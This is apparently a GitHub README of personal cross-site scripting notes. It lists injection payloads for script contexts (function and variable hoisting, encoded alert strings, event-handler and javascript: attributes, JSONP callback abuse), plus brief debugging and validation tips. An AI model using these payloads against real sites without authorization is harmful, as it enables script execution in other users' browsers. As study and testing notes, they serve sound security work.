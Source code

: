 # XSS-Notes
XSS Scenarios

```
<script>
    leo.write('test','reflection_here')
</script>
```

Exploitable scenarios

```
vulnerableFunction('test', 'INJECTION');
```
```
//param='-alert(1)-'
vulnerableFunction('test', ''-alert(1)-''); 
```

Function injection

```
vulnerableFunction('test', ''-alert(1)-''); 

function vulnerableFunction(a,b){
    return 1
};
```
```
//Payload
param='-alert(1)-'')%3b+function+vulnerableFunction(a,b){return+1}%3b
```

```
vulnerableFunction('test', 'test'); 

function vulnerableFunction(a,b){
    return 1
};

alert(1)
```

```
//Payload
param=test')%3bfunction+vulnerableFunction(a,b){return+1}%3balert(1)
```

Variable injection

```
function myFunction(a,b){
    return 1
};
myFunction(a, 'test'); 
var a = 1;
alert(1);
```

```
//Payload
param=test')%3b+var+a+%3d+1%3b+alert(1)%3b
```

## Debugging Client Side JS

download all the files locally and change set breakpoints in the JS code.

**"Dev Tools" --> "Sources" --> "Overrides"**

add this in function
```
debugger;
```

## input Validation (check HTML tags)
1. check multiple tags
```
<img>
<a>....
```
2. attributes
```
onclick="alert(1)"
href = "javascript:alert(1)"
```
3. inside <script> [....]  </script>
```
'-alert(1)-'
';-alert(1)//
\';alert(1)//

// encoded
\u{61}lert(1)
\u0061lert(1)
\u{0061}lert(1)
```
Demo function
```
function myFunction(a,b){
    return 1;
}

myFunction(a,'<INJECTION>')
```
In UnExploitable Class
```
// If an undeclared class is used, you cannot declare it AFTER being used
var variable = new unexploitableClass();
<INJECTION>
// example
' ' -alert(1)- ' '
// But you can actually declare it as a function, being able to fix the syntax with something like:
function unexploitableClass() {
    return 1;
}
alert(1);
```

# javascript function

web pages have endpoints that accept as parameter the name of the function to execute. 
common example to see in the wild is something like: **?callback=callbackFunc.**
```
callback=alert(1)
```
 validate the content to only allow **letters, numbers, dots and underscores**

 




